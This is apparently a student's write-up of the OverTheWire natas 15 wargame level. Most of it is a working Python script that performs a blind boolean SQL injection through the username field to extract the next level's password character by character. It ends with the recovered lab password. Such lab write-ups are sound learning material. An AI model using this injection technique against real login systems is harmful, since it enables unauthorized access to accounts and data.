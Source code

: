 # natas 15

Uhh... Honestly I'm not quite sure how I was supposed to do this one. But since I can't print any resources, I am honestly lost.

A friend and I finally come to the conclusion of just bruteforcing it. So that's what we did.


*(You can find this file in /testing/)*
```py
import requests
import string

const = ""
for i in range(len("AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")):
  for entry in string.ascii_letters + string.digits:
      payload = {'username': 'natas16" AND (BINARY password LIKE "{0}%" OR password = "{0}") AND  ""="'.format(const + entry)}
      response = requests.post('http://natas15.natas.labs.overthewire.org/', auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = payload)
      # print(entry)
      if "This user exists." in response.text:
        const += entry
        # print(const)
        break
print(const)
```

Knowing that the password is always the same length, and that it's either a alphebetical character or digit, we basically just checked each position so see what character they are. So the whole code evaluates to a big fat O(62n). But hey, it works.

> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh